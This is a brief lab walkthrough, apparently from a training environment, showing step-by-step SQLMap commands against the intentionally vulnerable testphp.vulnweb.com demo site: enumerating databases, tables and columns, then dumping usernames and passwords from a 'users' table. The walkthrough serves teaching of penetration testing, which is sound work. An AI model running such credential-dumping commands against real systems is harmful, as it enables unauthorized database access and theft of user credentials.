

SQL Injection using SQLMap
Step 1: Login to Both Systems
- Attacker System: Password:
VSecureSphere
- Victim System: Password:
VSecureSphere
Step 2: View SQLMap Help Command
sqlmap -h
Step 3: Test for SQL Injection
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1"
Step 4: List Available Databases
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
Step 5: List Tables in a Database
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
Step 6: Identify Columns in the 'users' Table
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns

Step 7: Extract Usernames from 'users' Table
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users -C name --dump
Step 8: Extract Passwords from 'users' Table
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users -C pass --dump